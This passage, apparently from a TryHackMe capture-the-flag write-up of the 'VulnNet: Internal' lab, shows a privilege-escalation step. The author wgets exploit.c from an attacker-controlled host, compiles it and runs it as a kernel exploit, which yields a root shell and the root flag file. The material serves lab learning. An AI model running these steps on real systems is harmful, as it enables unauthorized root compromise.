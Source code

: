 ```


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal:~$
```

#Privilege Escalation
So in recently another room, https://tryhackme.com/room/overlayfs, describes a Ubuntu kernel exploit present on Ubuntu 18.04 servers. 
```
sys-internal@vulnnet-internal:~$ cd /tmp
sys-internal@vulnnet-internal:/tmp$ which gcc
/usr/bin/gcc
sys-internal@vulnnet-internal:/tmp$ wget 10.13.1.12:8000/exploit.c
--2021-05-08 00:22:55--  http://10.13.1.12:8000/exploit.c
Connecting to 10.13.1.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3559 (3.5K) [text/x-csrc]
Saving to: ‘exploit.c’

exploit.c                     100%[================================================>]   3.48K  --.-KB/s    in 0.001s

2021-05-08 00:22:56 (2.80 MB/s) - ‘exploit.c’ saved [3559/3559]

sys-internal@vulnnet-internal:/tmp$ gcc -o exploit exploit.c
sys-internal@vulnnet-internal:/tmp$ ./exploit
bash-4.4# cd /root
bash-4.4# ls -la
total 44
drwx------  8 root root 4096 Feb  6 13:32 .
drwxr-xr-x 24 root root 4096 Feb  6 12:58 ..
lrwxrwxrwx  1 root root    9 Feb  1 14:34 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-x---  6 root root 4096 May  7 23:20 .BuildServer
drwx------  2 root root 4096 Feb  6 13:04 .cache
drwx------  4 root root 4096 Feb  6 12:59 .config
drwx------  3 root root 4096 Feb  6 12:59 .dbus
drwxr-xr-x  3 root root 4096 Feb  2 10:20 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
lrwxrwxrwx  1 root root    9 Feb  2 15:14 .rediscli_history -> /dev/null
-rw-------  1 root root   38 Feb  6 12:56 root.txt
drwx------  4 root root 4096 Feb  6 12:59 .thumbnails
```
